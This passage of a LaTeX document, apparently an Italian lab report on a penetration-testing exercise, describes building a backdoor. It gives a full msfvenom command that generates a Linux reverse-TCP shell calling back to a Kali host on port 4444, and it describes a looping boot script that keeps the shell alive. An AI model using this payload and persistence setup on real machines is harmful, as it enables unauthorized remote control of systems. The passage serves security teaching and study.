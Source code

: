 \subsection{Generazione della \emph{backdoor} mediante \emph{Metasploit}}
\emph{Metasploit} mette a disposizione un tool, chiamato \emph{msfvenom} che consente di generare l'eseguibile di una \emph{reverse shell} pronta all'uso da installare sulla macchina target. Dalla macchina \emph{Kali}, è stata avviata la console di \emph{Metasploit} ed è stato eseguito il comando: 
\begin{lstlisting}[language=bash] 
    $ msfvenom -a x64 -platform linux -p linux/x64/shell/reverse_tcp 
            LHOST=10.0.2.15 LPORT=4444 -f elf -o shell.elf
\end{lstlisting}
Il vantaggio di tale approccio risiede nel fatto che la \emph{backdoor} generata non necessita di meccanismi di autenticazione, consentendo alla macchina \emph{Kali} di interagire liberamente con la macchina target. 
\subsection{Creazione dello script per l'avvio della \emph{reverse shell}}
Al fine di eseguire la \emph{backdoor} ad ogni avvio del sistema, è stato previsto uno \emph{script}, chiamato \emph{in.sh}, avente come unico obiettivo quello di richiamare in loop la \emph{reverse shell} precedentemente generata (figura \ref{fig:in}). La presenza del loop ha come scopo quello di evitare la terminazione della \emph{backdoor} al termine della prima interazione con la macchina \emph{Kali}. 
\begin{figure}[h]
    \centering
    \includegraphics[scale=1]{capitoli/images/in.png}
    \caption{Script che avvia la \emph{reverse shell}}
    \label{fig:in}
\end{figure}
